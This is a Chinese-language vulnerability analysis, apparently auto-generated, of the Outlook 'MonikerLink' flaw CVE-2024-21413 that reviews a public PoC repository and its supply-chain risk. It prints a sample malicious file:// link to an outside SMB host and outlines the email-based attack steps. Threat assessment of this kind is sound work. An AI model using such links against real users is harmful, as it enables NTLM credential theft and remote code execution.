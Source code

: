 ## CVE-2024-21413 - Microsoft Outlook 远程代码执行漏洞

**漏洞编号:** CVE-2024-21413

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Microsoft Outlook

**危害等级:** 严重，可能导致信息泄露、NTLM凭据窃取和远程代码执行

**影响版本:** 受影响版本包括 Microsoft Office LTSC 2021、Microsoft 365 Apps for Enterprise、Microsoft Outlook 2016 和 Microsoft Office 2019。具体受影响版本请参考漏洞库信息。

**利用条件:** 攻击者需要能够通过电子邮件向目标用户发送特制邮件。

**POC 可用性:** 是

**投毒风险:** 30%

## 详情

CVE-2024-21413 是 Microsoft Outlook 中存在的一个远程代码执行漏洞，也称为 "MonikerLink" 漏洞。攻击者可以通过在电子邮件中嵌入特制的 `file://` 链接，绕过 Protected View 并执行恶意代码。 

**有效性：**
根据漏洞库信息和搜索结果，该漏洞被标记为严重，且存在在野利用。提供的 POC 代码利用了 `file://` 协议处理中的缺陷，通过构造恶意链接（例如 `file:///\\10.10.111.111\test\test.rtf!exploit`）来触发漏洞。POC 代码中给出了使用示例，表明该漏洞利用方式是有效的。

**投毒风险：**
POC 代码本身看起来是直接的，旨在利用该漏洞进行远程代码执行或者泄露NTLM凭据。但是，**存在以下几点需要注意**：
1.  **短链接风险**: POC 使用短链接 `https://shorturl.at/7itzw` 下载代码，这本身就是一个潜在的风险点。虽然当前链接可能指向合法的代码仓库，但攻击者可以随时更改短链接的目标地址，从而传播恶意软件。
2.  **Payload 可定制性**：该 POC 允许用户自定义 payload，这为潜在的恶意利用敞开了大门。用户可以将 payload 设置为下载和执行恶意代码，从而实现远程控制等目的。
3.  **隐蔽的后门植入**: 由于代码可以被修改,有可能被植入后门。

考虑到短链接带来的不确定性，Payload的可定制性，以及后门植入的可能性，存在30%的投毒风险。

**利用方式：**
1.  **构造恶意邮件：** 攻击者创建一个包含特制 `file://` 链接的电子邮件。
2.  **发送邮件：** 将该邮件发送给目标用户。
3.  **触发漏洞：** 当用户打开邮件时，Outlook 尝试解析 `file://` 链接。如果链接构造不当（例如包含 `!exploit`），则可能触发漏洞，导致执行恶意代码或泄露 NTLM 凭据。
4.  **远程代码执行或凭据窃取：** 如果成功利用该漏洞，攻击者可以执行任意代码或窃取用户的 NTLM 凭据，从而进一步控制受害者的系统。

综上所述，CVE-2024-21413 是一个严重的漏洞，利用方式相对简单，且存在有效的 POC 代码。企业应尽快应用 Microsoft 提供的补丁，以防止攻击者利用该漏洞进行攻击。

**项目地址:** [Cyber-Trambon/CVE-2024-21413-exploit](https://github.com/Cyber-Trambon/CVE-2024-21413-exploit)

**漏洞详情:** [CVE-2024-21413](https://nvd.nist.gov/vuln/detail/CVE-2024-21413)
